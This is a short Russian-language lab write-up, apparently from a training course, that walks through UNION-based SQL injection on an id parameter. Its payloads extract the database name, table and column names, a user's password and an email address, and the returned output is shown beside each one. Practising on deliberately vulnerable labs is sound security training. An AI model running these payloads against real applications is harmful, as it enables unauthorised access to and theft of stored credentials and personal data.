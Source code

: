 ## Название бызы

```
?id=-1' UNION SELECT 1, database(), 3 --+

Ваш id:1
Ваш логин:security
```

## Еазвание таблиц

```
?id=-1' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema = database() AND table_name LIKE 'a%' --+

Меняя 'a%' на 'b%', 'c%' и так далее, можно перебрать названия таблиц.
Я получил:
emails
users
```

## Название колонок
```
?id=-1' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name = 'users' --+
колонка USER

?id=-1' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name = 'emails' --+
колонка id
```
## На удачу попробовал
```
Попробовал ?id=-1' UNION SELECT 1, password, 3 FROM users WHERE username = 'Volk2' --+
и получил:
Ваш id:1
Ваш логин:Wa spoiuuuuu
```
``
?id=-1' UNION SELECT 1, id, 3 FROM users WHERE username = 'Vinni-pukh' --+
Ваш id:1
Ваш логин:4

на запрос ?id=-1' UNION SELECT 1, email_id, 3 FROM emails WHERE id = 4 --+
я получил

Ваш id:1
Ваш логин:honey_lover@otus-lab.com
```